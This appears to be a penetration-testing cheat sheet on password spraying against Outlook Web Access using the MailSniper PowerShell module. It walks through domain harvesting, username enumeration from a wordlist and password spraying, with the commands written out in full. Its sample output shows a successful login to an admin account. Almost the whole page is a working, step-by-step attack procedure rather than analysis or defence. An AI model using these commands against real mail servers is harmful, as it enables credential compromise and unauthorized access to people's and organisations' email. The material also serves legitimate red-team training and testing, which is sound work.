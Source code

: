 # Password Spraying



### MailSniper

Start by importing MailSniper. The repo can be found [here](https://github.com/dafthack/MailSniper).

```powershell
PS C:\Users\scrub\MailSniper> Import-Module .\MailSniper.ps1
```

#### Find domain

We've need to obtain a the domain of the mail server we're targeting. Luckily, we can do so with MailSniper.

```
PS C:\Users\scrub\MailSniper> Invoke-DomainHarvestOWA -ExchHostname rottadev.onmicrosoft.com
[*] Harvesting domain name from the server at rottadev.onmicrosoft.com
```

#### Find users.

Once you have a user wordlist & domain, use it to find valid users with `Invoke-UsernameHarvestOWA.`

```powershell
PS C:\Users\scrub\MailSniper> Invoke-UsernameHarvestOWA -ExchHostname mail.rottadev.onmicrosoft.com 
-Domain rottadev.onmicrosoft.com -UserList .\Desktop\usernames.txt -OutFile .\Desktop\valid_usernames.txt
```

#### Spray Passwords

Once we have valid usernames we start spraying passwords.

```powershell
PS C:\Users\scrub\MailSniper> Invoke-PasswordSprayOWA -ExchHostname mail.rottadev.onmicrosoft.com
-UserList .\valid_usernames.txt -Password P@ssw0rdd

[*] Now spraying the OWA portal at https://rottadev.onmicrosoft.com/owa/
[*] SUCCESS! User:rottadev.onmicrosoft.com\ga_admin Password:P@ssw0rdd
[*] A total of 1 credentials were obtained.
```

